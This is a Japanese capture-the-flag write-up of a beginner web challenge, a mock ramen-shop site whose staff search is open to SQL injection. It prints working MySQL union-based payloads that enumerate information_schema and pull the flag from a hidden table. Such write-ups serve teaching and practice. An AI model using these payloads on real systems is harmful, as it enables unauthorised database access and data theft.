 ## Web
### [warmup] Ramen (73)
> ラーメン
> 
> https://(省略)

与えられた URL はラーメン屋の Web サイト (を模したもの) のようです。アクセスすると、「安い」「美味い」「早い」という宣伝文句と店員の一覧が表示されました。

この Web サイトではなぜかユーザ名で店員を検索できる機能も提供されています。裏でユーザ入力をそのまま結合した SQL 文を DB に渡しているのではないかと考え、`' or 1=1;#` を入力するとすべての店員が表示されました。また、`' and 1=0;#` を入力すると店員はひとりも表示されませんでした。SQL インジェクションができるようです。

DB の種類を特定できないか、とりあえず MySQL や PostgreSQL に存在している `version()` という関数を実行させてみて、その結果を `union` 文で出力させてみましょう。`' union select 1, version();#` を入力すると、以下のようなテーブルが表示されました。

|名前|一言|
|----|----|
|せくこん太郎|1970 年よりラーメン道一本。美味しいラメーンを作ることが生きがい。|
|せくこん次郎|せくこん太郎の弟。好きな食べものはコッペパン。|
|せくこん三郎|せくこん次郎の弟。食材本来の味を引き出すことに全力を注ぐ。|
|1|5.6.44|

ラメーン。`5.6.44` でググると MySQL がヒットします。どうやら DB には MySQL が使われているようです。

MySQL では [`information_schema.columns`](https://dev.mysql.com/doc/refman/5.6/ja/columns-table.html) というテーブルからカラム名とテーブル名を抜き出すことができます。`' union select concat(table_schema, '.', table_name), column_name from information_schema.columns;#` を試してみると、以下のようなテーブルが表示されました。

|名前|一言|
|----|----|
|せくこん太郎|1970 年よりラーメン道一本。美味しいラメーンを作ることが生きがい。|
|せくこん次郎|せくこん太郎の弟。好きな食べものはコッペパン。|
|せくこん三郎|せくこん次郎の弟。食材本来の味を引き出すことに全力を注ぐ。|
|(省略)|(省略)|
|app.flag|flag|
|app.members|username|
|app.members|profile|

`app.flag` というテーブルに `flag` というカラムが存在するようです。`' union select 1, flag from app.flag;#` で読み出してみましょう。

|名前|一言|
|----|----|
|せくこん太郎|1970 年よりラーメン道一本。美味しいラメーンを作ることが生きがい。|
|せくこん次郎|せくこん太郎の弟。好きな食べものはコッペパン。|
|せくこん三郎|せくこん次郎の弟。食材本来の味を引き出すことに全力を注ぐ。|
|1|ctf4b{a_simple_sql_injection_with_union_select}|
